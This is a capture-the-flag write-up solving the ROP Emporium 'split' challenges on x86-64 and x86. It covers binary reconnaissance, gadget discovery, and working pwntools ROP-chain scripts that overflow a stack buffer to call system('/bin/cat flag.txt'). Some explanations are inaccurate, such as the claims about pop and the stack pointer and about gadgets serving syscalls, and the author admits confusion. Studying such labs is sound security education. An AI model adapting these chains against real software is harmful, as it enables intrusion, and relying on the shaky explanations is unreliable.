



## split 

Run the `file` command on the binary. 

```
$ file split 
split: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=98755e64e1d0c1bff48fccae1dca9ee9e3c609e2, not stripped
```

The `file` output looks similar to the ret2win challenge.

The binary's build-id is completely different from ret2win. 

```
BuildID[sha1]=19abc0b3bb228157af55b8e16af7316d54ab0597 // ret2win
BuildID[sha1]=98755e64e1d0c1bff48fccae1dca9ee9e3c609e2 // split
```

Let's run `checksec` to check the security-features. 

```
$ checksec split
[*] '/home/hwkim301/ropemporium/split/split'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

Load the binary into ghidra. 

You can also use `objdump` for simple binaries, but ghidra/IDA does a good job decompiling complex ones. 

Here's the `main` function. 

```C
undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  puts("split by ROP Emporium");
  puts("x86_64\n");
  pwnme();
  puts("\nExiting");
  return 0;
}
```

This is the `pwnme` function.

```c
void pwnme(void)
{
  undefined1 local_28 [32];
  
  memset(local_28,0,0x20);
  puts("Contriving a reason to ask user for data...");
  printf("> ");
  read(0,local_28,0x60);
  puts("Thank you!");
  return;
}
```

There's a `usefulFunction`.

```c
void usefulFunction(void)
{
  system("/bin/ls");
  return;
}
```

Unlike the `ret2win` challenge, there isn't a function that directly calls `/bin/cat` or gives you a shell. 

It looks like we need to combine the manually craft a function call with the `system` function with `/bin/cat`.

First, let's look at the assembly instructions that could be helpful when calling a function.

We'll need to find some gadgets from [ROPgadget](https://github.com/jonathansalwan/ropgadget). 

If you've installed pwntools, `ROPgadget` is installed by default.

BTW, gadgets are assembly instructions in the binary that are used to pop registers (set up arguments) for syscalls.

Most of the time ctfers will use the gadgets that end in a ret instruction.

Using a ret instruction will continue program execution.

```
$ ROPgadget --binary split 
Gadgets information
============================================================
0x000000000040060e : adc byte ptr [rax], ah ; jmp rax
0x00000000004005d9 : add ah, dh ; nop dword ptr [rax + rax] ; repz ret
0x0000000000400597 : add al, 0 ; add byte ptr [rax], al ; jmp 0x400540
0x0000000000400577 : add al, byte ptr [rax] ; add byte ptr [rax], al ; jmp 0x400540
0x00000000004005df : add bl, dh ; ret
0x00000000004007cd : add byte ptr [rax], al ; add bl, dh ; ret
0x00000000004007cb : add byte ptr [rax], al ; add byte ptr [rax], al ; add bl, dh ; ret
0x0000000000400557 : add byte ptr [rax], al ; add byte ptr [rax], al ; jmp 0x400540
0x00000000004006e2 : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x000000000040068c : add byte ptr [rax], al ; add byte ptr [rax], al ; push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x400620
0x00000000004007cc : add byte ptr [rax], al ; add byte ptr [rax], al ; repz ret
0x000000000040068d : add byte ptr [rax], al ; add byte ptr [rbp + 0x48], dl ; mov ebp, esp ; pop rbp ; jmp 0x400620
0x0000000000400559 : add byte ptr [rax], al ; jmp 0x400540
0x0000000000400616 : add byte ptr [rax], al ; pop rbp ; ret
0x000000000040068e : add byte ptr [rax], al ; push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x400620
0x00000000004005de : add byte ptr [rax], al ; repz ret
0x0000000000400615 : add byte ptr [rax], r8b ; pop rbp ; ret
0x00000000004005dd : add byte ptr [rax], r8b ; repz ret
0x000000000040068f : add byte ptr [rbp + 0x48], dl ; mov ebp, esp ; pop rbp ; jmp 0x400620
0x0000000000400677 : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000400567 : add dword ptr [rax], eax ; add byte ptr [rax], al ; jmp 0x400540
0x0000000000400678 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; repz ret
0x0000000000400587 : add eax, dword ptr [rax] ; add byte ptr [rax], al ; jmp 0x400540
0x000000000040053b : add esp, 8 ; ret
0x000000000040053a : add rsp, 8 ; ret
0x00000000004005d8 : and byte ptr [rax], al ; hlt ; nop dword ptr [rax + rax] ; repz ret
0x0000000000400554 : and byte ptr [rax], al ; push 0 ; jmp 0x400540
0x0000000000400564 : and byte ptr [rax], al ; push 1 ; jmp 0x400540
0x0000000000400574 : and byte ptr [rax], al ; push 2 ; jmp 0x400540
0x0000000000400584 : and byte ptr [rax], al ; push 3 ; jmp 0x400540
0x0000000000400594 : and byte ptr [rax], al ; push 4 ; jmp 0x400540
0x00000000004005a4 : and byte ptr [rax], al ; push 5 ; jmp 0x400540
0x0000000000400531 : and byte ptr [rax], al ; test rax, rax ; je 0x40053a ; call rax
0x000000000040074f : call qword ptr [rax + 0x2e66c35d]
0x0000000000400873 : call qword ptr [rax + 0x43000000]
0x000000000040073e : call qword ptr [rax + 0x4855c3c9]
0x000000000040096b : call qword ptr [rcx]
0x0000000000400538 : call rax
0x00000000004007ac : fmul qword ptr [rax - 0x7d] ; ret
0x00000000004005da : hlt ; nop dword ptr [rax + rax] ; repz ret
0x0000000000400693 : in eax, 0x5d ; jmp 0x400620
0x0000000000400536 : je 0x40053a ; call rax
0x0000000000400609 : je 0x400618 ; pop rbp ; mov edi, 0x601078 ; jmp rax
0x000000000040064b : je 0x400658 ; pop rbp ; mov edi, 0x601078 ; jmp rax
0x000000000040055b : jmp 0x400540
0x0000000000400695 : jmp 0x400620
0x0000000000400293 : jmp 0xffffffffe249c97b
0x000000000040098b : jmp qword ptr [rbp]
0x0000000000400611 : jmp rax
0x0000000000400740 : leave ; ret
0x0000000000400288 : loope 0x40025a ; sar dword ptr [rdi - 0x5133700c], 0x1d ; retf 0xe99e
0x0000000000400672 : mov byte ptr [rip + 0x200a07], 1 ; pop rbp ; ret
0x0000000000400572 : mov dl, 0xa ; and byte ptr [rax], al ; push 2 ; jmp 0x400540
0x00000000004006e1 : mov eax, 0 ; pop rbp ; ret
0x0000000000400692 : mov ebp, esp ; pop rbp ; jmp 0x400620
0x000000000040060c : mov edi, 0x601078 ; jmp rax
0x0000000000400562 : mov edx, 0x6800200a ; add dword ptr [rax], eax ; add byte ptr [rax], al ; jmp 0x400540
0x0000000000400691 : mov rbp, rsp ; pop rbp ; jmp 0x400620
0x0000000000400592 : movabs byte ptr [0x46800200a], al ; jmp 0x400540
0x000000000040073f : nop ; leave ; ret
0x0000000000400750 : nop ; pop rbp ; ret
0x0000000000400613 : nop dword ptr [rax + rax] ; pop rbp ; ret
0x00000000004005db : nop dword ptr [rax + rax] ; repz ret
0x0000000000400655 : nop dword ptr [rax] ; pop rbp ; ret
0x0000000000400675 : or ah, byte ptr [rax] ; add byte ptr [rcx], al ; pop rbp ; ret
0x00000000004007bc : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004007be : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004007c0 : pop r14 ; pop r15 ; ret
0x00000000004007c2 : pop r15 ; ret
0x0000000000400694 : pop rbp ; jmp 0x400620
0x000000000040060b : pop rbp ; mov edi, 0x601078 ; jmp rax
0x00000000004007bb : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004007bf : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400618 : pop rbp ; ret
0x00000000004007c3 : pop rdi ; ret
0x00000000004007c1 : pop rsi ; pop r15 ; ret
0x00000000004007bd : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400556 : push 0 ; jmp 0x400540
0x0000000000400566 : push 1 ; jmp 0x400540
0x0000000000400576 : push 2 ; jmp 0x400540
0x0000000000400586 : push 3 ; jmp 0x400540
0x0000000000400596 : push 4 ; jmp 0x400540
0x00000000004005a6 : push 5 ; jmp 0x400540
0x0000000000400690 : push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x400620
0x00000000004005e0 : repz ret
0x000000000040053e : ret
0x0000000000400542 : ret 0x200a
0x0000000000400291 : retf 0xe99e
0x0000000000400292 : sahf ; jmp 0xffffffffe249c97b
0x0000000000400535 : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x000000000040028a : sar dword ptr [rdi - 0x5133700c], 0x1d ; retf 0xe99e
0x00000000004007d5 : sub esp, 8 ; add rsp, 8 ; ret
0x00000000004007d4 : sub rsp, 8 ; add rsp, 8 ; ret
0x00000000004007ca : test byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; repz ret
0x0000000000400534 : test eax, eax ; je 0x40053a ; call rax
0x0000000000400533 : test rax, rax ; je 0x40053a ; call rax

Unique gadgets found: 96
```

This one looks good.

```
0x00000000004007c3 : pop rdi ; ret
```

x86-64 ABI enforces that first, second and third arguments are passed via `rdi`, `rsi`, `rdx`, etc when triggering a function call.



The `pop rdi ret` instruction will take the top value of the stack save that to `rdi`.

Then it will lower the stack pointer and continue executing the program with the `ret`.

I tried `strings` and `readelf`, but those weren't very helpful.

`strings` only returned an offset. 

```bash
$ strings -atx split
1060 /bin/cat flag.txt
```

Then I ran `nm` to find whether or not there was a string such as `"/bin/sh"` or `"/bin/cat"`, in order to print the flag or get a shell.

```bash 
$ nm split
0000000000601072 B __bss_start
0000000000601080 b completed.7698
0000000000601050 D __data_start
0000000000601050 W data_start
00000000004005f0 t deregister_tm_clones
00000000004005e0 T _dl_relocate_static_pie
0000000000400660 t __do_global_dtors_aux
0000000000600e18 d __do_global_dtors_aux_fini_array_entry
0000000000601058 D __dso_handle
0000000000600e20 d _DYNAMIC
0000000000601072 D _edata
0000000000601088 B _end
00000000004007d4 T _fini
0000000000400690 t frame_dummy
0000000000600e10 d __frame_dummy_init_array_entry
00000000004009dc r __FRAME_END__
0000000000601000 d _GLOBAL_OFFSET_TABLE_
                 w __gmon_start__
0000000000400854 r __GNU_EH_FRAME_HDR
0000000000400528 T _init
0000000000600e18 d __init_array_end
0000000000600e10 d __init_array_start
00000000004007e0 R _IO_stdin_used
00000000004007d0 T __libc_csu_fini
0000000000400760 T __libc_csu_init
                 U __libc_start_main@@GLIBC_2.2.5
0000000000400697 T main
                 U memset@@GLIBC_2.2.5
                 U printf@@GLIBC_2.2.5
                 U puts@@GLIBC_2.2.5
00000000004006e8 t pwnme
                 U read@@GLIBC_2.2.5
0000000000400620 t register_tm_clones
                 U setvbuf@@GLIBC_2.2.5
00000000004005b0 T _start
0000000000601078 B stdout@@GLIBC_2.2.5
                 U system@@GLIBC_2.2.5
0000000000601078 D __TMC_END__
0000000000400742 t usefulFunction
0000000000601060 D usefulString
```

There was a conspicuous symbol called `usefulString` in the data(D) section.

```bash
0000000000601060 D usefulString
```

Let's check what the `usefulString` is in gdb. 

You can run the binary in gdb, set a breakpoint at main then use `x/s` (examine string) at `0x601060` where the string is.


```bash 
gef➤  x/s 0x601060
0x601060 <usefulString>:	"/bin/cat flag.txt"
```

It's a `"/bin cat flag.txt"` string. 

You can find the string in `ghidra` as well. 



It's located at the very bottom of the `Exports section` under the `Symbol Tree` on the left side.

Here's the pwntools code. 

```python
from pwn import *

p = process('./split')
e = ELF('./split')
r = ROP(e)

payload = b'A' * 40
payload += p64(r.find_gadget(['pop rdi']).address)
payload += p64(e.symbols['usefulString'])
payload += p64(r.find_gadget(['ret']).address)
payload += p64(e.symbols['system'])
p.send(payload)
p.interactive()
```

I added another `ret` instruction so that the stack is aligned. 

Run the code, and you'll get your flag.

You can use the [rop](https://docs.pwntools.com/en/stable/rop/rop.html) class in pwntools instead of crafting the ropchain by calling `p64` multiple times.

```python 
from pwn import *

context.arch = 'amd64'
p = process('./split')
e = ELF('./split')
rop = ROP(e)

rop.raw(b'A' * 40)
cat_flag = next(e.search(b'/bin/cat flag.txt'))
rop.raw(rop.find_gadget(['ret']).address)
rop.call(e.symbols['system'], [cat_flag])
print(rop.dump())

p.send(rop.chain())
p.interactive()
```

## split32 

Run `file` and `checksec`.

```
$ file split32 
split32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=76cb700a2ac0484fb4fa83171a17689b37b9ee8d, not stripped
```

```
$ checksec split32
[*] '/home/hwkim301/rop_emporium/split32/split32'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```

Load the binary to ghidra.

```c
undefined4 main(void)
{
  setvbuf(stdout,(char *)0x0,2,0);
  puts("split by ROP Emporium");
  puts("x86\n");
  pwnme();
  puts("\nExiting");
  return 0;
}
```

Here's the `pwnme` function.

```c
void pwnme(void)
{
  undefined1 local_2c [40];
  
  memset(local_2c,0,0x20);
  puts("Contriving a reason to ask user for data...");
  printf("> ");
  read(0,local_2c,0x60);
  puts("Thank you!");
  return;
}
```

The `usefulFunction` is here as well.

```c
void usefulFunction(void)
{
  system("/bin/ls");
  return;
}
```

Here's the pwntools code. 

```python
from pwn import *

p = process('./split32')
e = ELF('./split32')
rop = ROP(e)

payload = b'A' * 44
payload += p32(e.symbols['system'])
payload += p32(rop.find_gadget(['ret']).address)
payload += p32(e.symbols['usefulString'])

p.send(payload)
p.interactive()
```

The code is significantly different from the 64 bit version. 

It's because x86 uses the stack instead of registers to pass function arguments.

Since there are only **8** registers in x86 using the registers couldn't be a wise idea. 

As a matter of fact, there's only **6** registers excluding `esp` and `ebp`.



Unlike x86-64, x86 uses the stack instead of registers to pass function arguments. 

In x86-64 we had to first overwrite the return address with a `pop r*i ret` gadget.

We would then pass a variable so `r*i` to store the value for the function call. 

Since all the arguments are placed on the stack for x86, after overwriting the return address the program searches for the arguments on the stack. 

As a result we have to pass a 4 byte data onto the stack so that it continues execution and then pass the argument needed. 

As a conclusion unlike x86-64 where the pop gadgets and calling a function will immediately call the function, 
x86 will actually look for the arguments on the stack after jumping to the function and then it will trigger the function call. 

Pretty bizarre. 

I'm still a bit confused on how function calls work in x86 because it's quite contrary to x86-64. 

There might be a lot of wrong information but this is all I could understand for now. 